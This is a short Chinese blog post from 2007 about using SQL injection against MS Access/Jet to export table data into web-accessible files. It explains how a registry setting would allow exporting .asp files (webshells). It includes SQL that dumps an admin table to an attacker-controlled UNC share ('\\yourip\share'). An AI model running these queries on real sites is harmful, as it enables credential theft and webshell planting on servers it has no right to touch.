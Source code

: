 ```yaml
---
pubDatetime: 2007-03-17T10:30:00Z
title: "利用Access SQL注入导出ASP文件的方法"
description: "已经听N个人过说有人已经发现SQL注入Access得到webshell的技术了，也只是听说而已，具体的细节还是不得而知。最近在看的书中一章提到Jet的安全，然后灵光一闪，呵呵，发现了一种可以利用access导出asp的方法，分享之。"
tags: ["SQL注入", "Access", "ASP", "安全"]
featured: false
draft: false
---
```


已经听N个人过说有人已经发现SQL注入Access得到webshell的技术了，也只是听说而已，具体的细节还是不得而知。

最近在看的书中一章提到Jet的安全，然后灵光一闪，呵呵，发现了一种可以利用access导出asp的方法，分享之。

## 传统的导出方法

几个月之前网上就流传利用SQL注入Access导出数据库内容到文本文件（可导出txt、htm、html等格式）的方法：

```sql
Select * into [test.txt] in 'd:\web\' 'text;' from admin
```

执行上述语句，在d:\web目录下就会生成test.txt文件，其内容就是表admin的内容。但是导出asp格式就不行，会说"不能更新，数据库或对象为只读"。

## 问题的根源

其实控制导出文件后缀是存储在注册表的，具体键值是：

```
HKEY_LOCALMACHINE\Software\Microsoft\Jet\4.0\Engines\Text\DisableExtension
```

默认情况下值为`"!txt,csv,tab,asc,tmp,htm,html"`，如果我们把asp也添加进去的话，呵呵，就可以导出asp格式的文件了。

这个方法跟那个调用Access的Shell函数执行命令一样，要修改注册表，所以利用不是很大。

## 扩展思路

顺便提一下，前面提到的导出文本文件的方法如果不知道web路径貌似可以导出到自己机器的哦：

```sql
Select * into [test.txt] in '\\yourip\share' 'text;' from admin
```

## 实际测试

我在我自己的blog上测试，没有得用注入，直接exec sql语句形成：

```sql
Select gb_Author into [222.txt] in 'D:\wwwroot\starstudio\wwwroot\' 'text;' from blog_Guestbook
```

竟然真生成了txt文件了，当时可以访问 starstudio.cn/222.txt（现在域名已经失效，starstudio已经躺在本地硬盘中了）

不行可以试试访问............利用注点怎么得asp还得好好研究下
